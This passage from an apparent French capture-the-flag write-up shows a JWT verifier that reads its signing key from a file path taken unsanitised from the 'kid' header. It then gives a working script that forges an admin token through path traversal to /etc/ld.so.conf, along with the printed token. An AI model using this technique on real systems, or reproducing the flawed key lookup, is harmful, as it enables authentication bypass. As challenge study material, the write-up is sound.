 ```python
"""
def check(encoded_jwt):
	jwt_header = jwt.get_unverified_header(encoded_jwt)

	if ("kid" not in jwt_header):
		raise NameError('Missing kid in JWT header.')

	key_path = f"jwt_keys/{jwt_header['kid']}"

	if (not os.path.exists(key_path)):
		raise NameError('Key file not found.')

	if (os.path.getsize(key_path) == 0):
		raise NameError('Key file is empty.')

	with open(key_path, 'r') as file:
		user_secret = file.read()

	return jwt.decode(encoded_jwt, user_secret, algorithms="HS512")


def get_kid(encoded_jwt):
	return jwt.get_unverified_header(encoded_jwt)["kid"]
```

Les JWT sont générés de la façon suivante :
1. une clé aléatoire est stocké dans le fichier `jwt_keys/<uuid>.key` pour chaque utilisateur
2. `<uuid>.key` est mis dans le paramètre `kid` du header
3. le jwt est signé avec la clé contenu dans ce fichier

Techniquement, on peut donc signer nous même notre propre jwt à condition d'avoir un fichier en commun avec le serveur. Pour ça plusieurs choix :
- soit on signe un jwt avec un des fichiers sources qu'on a récupéré par exemple `../app.py` ou `../authz/jwt.py`
- soit on trouve un fichier commun qui existe sur tous les ubuntu comme le fichier `/etc/ld.so.conf`

On créer notre JWT avec le role admin et les bons paramètres :

```python
import jwt

key_path = f"../../../../../../etc/ld.so.conf"
data = {"acl": "admin"}

with open("/etc/ld.so.conf", 'r') as file:
    user_secret = file.read()

jwt_encoded = jwt.encode(data, user_secret, algorithm="HS512", headers={"kid": key_path})
print(jwt_encoded)
```

```bash
$> python3 jwt_admin.py
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiIsImtpZCI6Ii4uLy4uLy4uLy4uLy4uLy4uL2V0Yy9sZC5zby5jb25mIn0.eyJhY2wiOiJhZG1pbiJ9.ivCBMqv01Z0OB66JTdD_73whJDcxpUMsSlsmLd5pLaejfVt0BOAnuSHZDWOleFmT_uyjM2Gp7a8Ds4qv64cL4Q
```
